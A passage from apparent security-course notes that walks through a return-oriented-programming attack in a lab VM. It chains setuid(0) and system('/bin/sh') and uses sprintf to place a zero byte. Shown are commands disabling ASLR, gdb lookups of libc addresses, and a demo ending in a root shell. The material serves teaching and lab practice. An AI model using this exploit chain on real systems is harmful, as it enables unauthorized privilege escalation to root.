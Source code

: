 

## Example 4 --- The Final Attack

Now we can chain arbitrary number of functions, with an arbitrary number of arguments.
We can return to the task of chaining these functions:
`foo() --> setuid(0) --> system("/bin/sh")`

We have to overcome the issue with putting a 0 (zero) on the stack (i.e., there are restrictions on what we can actually put in memory...).
The **KEY IDEA** is to put a non-zero value in memory first,
but cause instructions to be executed that change that value to zero AFTER the `strcpy` (for example) function copies our payload into memory.

**Question:** What kind of function allows us to change arbitrary memory values?
- `sprintf(A,B)` -- Copies B into A. Set B to null byte (zero). Set A to address that needs to be zero.

**DEMO:**

```bash
sudo sysctl -w kernel.randomize_va_space=0 # DISABLE ASLR!
sudo ln -sf /bin/dash /bin/sh # Restore shell-based countermeasure
```
```bash
# Run ./stack_rop to get env address & offset
stack_rop
0xbffffef0
112

# Get address of leave-ret
gdb-peda$ disas foo
Dump of assembler code for function foo:
    0x0804851b <+0>: push   %ebp
    ...
    0x08048580 <+101>:   leave
    0x08048581 <+102>:   ret

# Get addresses of library functions
gdb-peda$ p sprintf
$1 = {<text variable, no debug info>} 0xb7e516d0 <__sprintf>
gdb-peda$ p setuid
$2 = {<text variable, no debug info>} 0xb7eb9170 <__setuid>
gdb-peda$ p system
$3 = {<text variable, no debug info>} 0xb7e42da0 <__libc_system>
gdb-peda$ p exit
$4 = {<text variable, no debug info>} 0xb7e369d0 <__GI_exit>
```
```bash
chain_attack.py && stack_rop
# The '/bin/sh' string's address: 0xbffffef0
# Address of buffer[]:  0xbfffeab8
# Frame Pointer value:  0xbfffeb28
# Diff between buffer & frame pointer = 112
```
```
# id
# uid=0(root) gid=1000(seed) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```
